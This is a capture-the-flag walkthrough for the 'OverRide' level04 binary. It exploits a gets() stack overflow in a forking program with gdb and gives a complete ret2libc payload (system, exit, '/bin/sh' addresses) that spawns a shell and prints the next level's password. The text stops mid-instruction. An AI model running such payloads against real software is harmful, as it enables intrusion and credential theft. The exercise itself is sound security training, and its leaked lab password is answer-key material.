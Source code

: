 # Level04 Walkthrough

## Analyzing the Program with GDB and ghidra

1. **Whats happening**: 
```bash
    level04@OverRide:~$ ./level04 
    Give me some shellcode, k
    gq
    child is exiting...

```

- Its a fork() challenge, here we read user string input thanks to `gets()` function but there is no control on the size. So we can overflow the buffer, so overwrite the pointer (eip register) with a particular libc function address directly.

- We will need to set on gdb  `set follow-fork-mode child`. 
```bash
(gdb) set follow-fork-mode child
(gdb) run
Starting program: /home/users/level04/level04 
[New process 2484]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

(gdb) info register eip
eip            0x41326641       0x41326641 <----- offset 156

```

Same to other level, try a `ret2libc` with `system()`, `exit()`, and `/bin/sh`
```bash
(gdb) print system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) print exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) find &system, +999999999, "/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
(gdb) x/s 0xf7f897ec
0xf7f897ec:      "/bin/sh"
```

- Final Payload: 
```bash
(python -c 'print "A" * 156 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7"' ; cat -) | ./level04

level04@OverRide:~$ (python -c 'print "A" * 156 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7"' ; cat -) | ./level04
Give me some shellcode, k


whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
---

## Moving to level05

1. **Swith User to level05**:
    Run ```su level05```

2. **Authenticate with the Password**:
    
   
 